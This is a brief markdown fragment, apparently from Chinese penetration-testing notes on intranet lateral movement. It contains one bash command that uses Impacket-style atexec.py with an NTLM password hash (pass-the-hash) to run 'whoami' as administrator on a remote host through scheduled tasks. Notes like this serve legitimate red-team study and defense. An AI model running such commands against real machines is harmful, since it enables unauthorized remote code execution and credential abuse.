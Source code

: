 ![Untitled](%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91%E7%A7%BB%E5%8A%A8%20784f931e99eb4194ad082bd2d99c37ec/Untitled%2013.png)

```bash
# atexec.py，通过MS-TSCH协议控制计划任务在目标机器上执行命令并获得回显
python3 atexec.py -hashes :96b26b0744352a9d91516132c3fe485d hack/administrator@10.10.10.137 whoami
```

